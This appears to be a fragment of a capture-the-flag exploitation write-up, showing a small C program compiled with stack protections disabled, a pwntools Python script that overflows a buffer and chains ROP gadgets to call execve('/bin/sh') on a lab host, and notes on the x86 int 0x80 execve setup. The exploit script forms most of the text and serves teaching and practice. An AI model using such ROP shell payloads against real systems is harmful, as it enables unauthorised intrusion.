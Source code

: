 ```c

int main() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	get();
	return 0;
}

#!/bin/bash
gcc -m64 -fno-stack-protector -no-pie -z execstack $1.c -o $164
```



```python
from pwn import *


context(arch='i386', os='linux')
context.log_level = 'debug'
url = "192.168.155.143 9000"
host, port = url.replace(' ', ':').split(':')

sh = 0x601038
syscall = 0x4005A7 + 4
ret = 0x40048e
pop_rdi = 0x400693
pop_rsi_r15 = 0x400691
mov_rdx = 0x4005b0
mov_rax = 0x4005DA


p = remote(host, port)

payload = b'a' * (0xa + 8) + p64(mov_rdx) + p64(pop_rsi_r15) + p64(0) * 2 + p64(pop_rdi) + p64(sh) + p64(mov_rax) + p64(syscall)

p.sendline(payload)

p.interactive()

```



### 2. int 0x80 (x86):

**execve(ebx, ecx, edx)  调用号：11**

```
ebx  = '/bin/sh'
ecx = 0
edx = 0
eax = 11
int 0x80
```
